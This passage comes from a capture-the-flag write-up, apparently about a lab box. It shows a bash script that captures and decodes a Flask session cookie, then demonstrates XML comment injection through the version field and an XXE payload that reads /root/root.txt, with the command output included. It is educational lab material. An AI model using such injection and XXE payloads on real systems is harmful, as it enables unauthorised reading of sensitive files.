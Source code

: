     cookie=$(curl -s -v -X POST 'http://127.0.0.1:8888/login' --data-urlencode "username=$username" --data-urlencode "version=$version" -x http://127.0.0.1:8080 2>&1 |               
        grep Set-Cookie |                               
        cut -d'=' -f2 |              
        cut -d';' -f1)
    echo "[+] Got cookie: $cookie" 
    flask_session_cookie_manager3.py decode -c $cookie |
        cut -d"'" -f2 |                                           
        jq -r '.lxml." b"' |                      
        base64 -d |          
        base64 -d
    echo
    

Running it prints the decoded XML:

    
    
    oxdf@parrot$ ./test-cookie.sh 0xdf 1.0.0
    <!-- API Version 1.0.0 -->
    <root>
        <data>
            <username>0xdf</username>
            <is_admin>0</is_admin>
        </data>
    </root>
    

What’s cool is that by playing around with this, I can see how I can mess with
the cookie. For example, I can use comments to add stuff outside the `<root>`:

    
    
    oxdf@parrot$ bash ./test-cookie.sh 0xdf '-->Dangerous stuff!<!--'
    <!-- API Version -->Dangerous stuff!<!-- -->
    <root>
        <data>
            <username>0xdf</username>
            <is_admin>0</is_admin>
        </data>
    </root>
    

XXE is typically good for reading files from the file system. Can I get
`root.txt`? I’ll generate a payload like this:

    
    
    oxdf@parrot$ bash ./test-cookie.sh '&test;' '1.0.0 -->\n\n<!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- '
    [+] Got cookie: .eJxtkEtPhDAYRf-K6doFIJM4k7iwQnloixT6dWBXUiIMBZuBZF7xv8ti3Lm-9-ac3Bsy59Gg3Q09NGiHRMiIDs9lPqTA5TLB6MpW0ksT170SxC8ji7Vwg3zPKQT8I_fskyIpyQSXfDxzYdhbK5NLVuKUT9QvAGTp1qQhsBdOcpKmy2hootJYoJBGQBhWYJcmZgqirVfGw-a-p9SxXnVgXEueqACn6gCDiFbe6kcjTcX19bjy_Xs_r73tVAiGaxfHYuwG7og1N7h2TJBLneYOmUTYydbYqpighiuZRWQUJbYqD_iznbRXky5rIrYw2fXg_rfXc2u-LnxcevDO7uqDs_C0_mMrOtTHyuhZA54a769PN8o11eqz-j37ZcDe9ZhcRTG_oJ9HZL_7aZnRzvn5BTubgkc.YKLbYw.gx88jbKZCDX4VjKnKGJvoEv5vLg
    <!-- API Version 1.0.0 -->
    
    <!DOCTYPE root [<!ENTITY test SYSTEM "file:///root/root.txt">]><!-- -->
    <root>
        <data>
            <username>&test;</username>
            <is_admin>0</is_admin>
        </data>
    </root>
    